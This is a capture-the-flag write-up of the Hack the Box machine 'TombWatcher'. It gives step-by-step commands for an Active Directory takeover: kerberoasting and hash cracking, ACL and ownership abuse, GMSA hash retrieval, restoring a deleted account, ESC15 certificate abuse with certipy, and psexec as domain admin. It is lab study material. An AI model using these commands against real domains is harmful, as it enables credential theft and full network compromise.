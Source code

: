 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred

`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball

`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec

`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.

`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.

`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.

`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. Shows the cert_admin user has been deleted. Let's try to restore the account and enable it again using PowerShell

`Restore-ADObject -Identity 'f80369c8-96a2-4a7f-a56c-9c15edd7d1e3'`

16. Check cert_admin account is restored

`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/6a82727a-bf1b-4bcc-9990-d8539361fcef)

17. Success! Now, change cert_admin's password using John's GenericAll privs on that account

`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.78 -u john -p Password123 set password cert_admin Summer2025`

18. With cert_admin's account, we naturally enumerate for vulnerable certificate templates with certipy. Certipy returns a WebServer template that's vulnerable to ESC15

`certipy find -u cert_admin -p Summer2025 -dc-ip 10.129.47.78 -enabled -vulnerable`

![image](https://github.com/user-attachments/assets/e0ae6706-66dc-4b5b-96af-89790ca715c9)

19. Using certipy, request the WebServer template with admin's UPN and SID.

`certipy req -dc-ip 10.129.32.88 -ca tombwatcher-CA-1 -u cert_admin -p Summer2025 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication' -sid 'S-1-5-21-1392491010-1358638721-2126982587-500'`

20. With admin's certificate, we get a root ldap shell on the machine. With the ldap shell, add user John to Domain Admins group

`certipy auth -pfx administrator1.pfx -dc-ip 10.129.32.88 -ldap-shell`

![image](https://github.com/user-attachments/assets/5f2f263b-3bf8-41de-9375-f944d88c163e)

21. Check John is Domain Admin with netexec and then get root shell on the machine using psexec.py

`nxc smb 10.129.32.88 -u john -p Password123`

`psexec.py john:Password123@10.129.32.88`

![image](https://github.com/user-attachments/assets/3688c466-0203-457f-841d-c225bc93a605)

22. Get root flag and pwned!



